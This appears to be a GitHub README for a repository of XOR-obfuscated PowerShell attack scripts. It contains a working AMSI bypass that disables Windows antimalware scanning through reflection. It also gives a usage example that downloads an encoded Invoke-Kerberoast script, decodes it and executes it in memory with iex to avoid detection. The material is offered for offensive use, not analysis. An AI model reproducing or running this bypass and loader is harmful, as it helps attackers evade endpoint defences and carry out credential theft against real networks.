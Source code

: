 # PS-Scripts-Obfuscated
Powewrshell scripts xor encoded and convereted to .txt to avoid on disk detction. 


## The below is currently a working AMSI bypass.   
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```


## Usage Example: Run the powershell scripts using the below. 

```
PS C:\Users\User> $file = "C:\Users\User\Desktop\temp\Invoke-Kerberoast.txt"
PS C:\Users\User>
PS C:\Users\User> $enc = [system.Text.Encoding]::UTF8
PS C:\Users\User> $file = ((New-Object Net.Webclient).DownloadString($file))
PS C:\Users\User> $data = $enc.GetBytes($file)|%{$_-bXor0x11}
PS C:\Users\User> iex ([System.Text.Encoding]::ASCII.GetString($data))
```
